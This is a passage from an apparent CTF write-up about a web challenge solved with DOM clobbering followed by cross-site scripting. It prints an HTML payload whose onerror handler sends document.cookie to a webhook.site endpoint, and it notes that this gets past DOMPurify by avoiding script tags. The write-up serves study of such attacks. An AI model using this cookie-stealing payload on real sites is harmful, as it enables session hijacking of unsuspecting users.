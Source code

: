 ![DOM Clobbering result](./img/book/book1.png "The value is changed")

Now we successfully bypass this guard, next we can just do the XSS. We set up a
webhook from [this site][webhooksite] to capture our fetch request. The we can
fill the content with this payload to get the cookie on the page and send it to
our webhook.

```html
<img
  src="x"
  onerror='fetch("https://webhook.site/<webhook-id>/?cookie=" + document.cookie)'
/>
```

We can't directly use the `<script>` tag because DOM purify will remove it. So,
we use `onerror` attribute to call the `fetch` function instead.

Don't forget to submit the page url in `/report` page and wait the bot to visit.

![Webhook flag](./img/book/book2.png "We got the flag")


[prevwriteup]: /blog/l3akctf-2024-writeup/
[tscctf]: https://ctftime.org/event/2598
[ctftag]: /blog/tag/ctf/
[domclob]: https://portswigger.net/web-security/dom-based/dom-clobbering
[clobpayload]: https://domclob.xyz/domc_markups/list
[webhooksite]: https://webhook.site
[beautiwriteup]: https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/crocodilu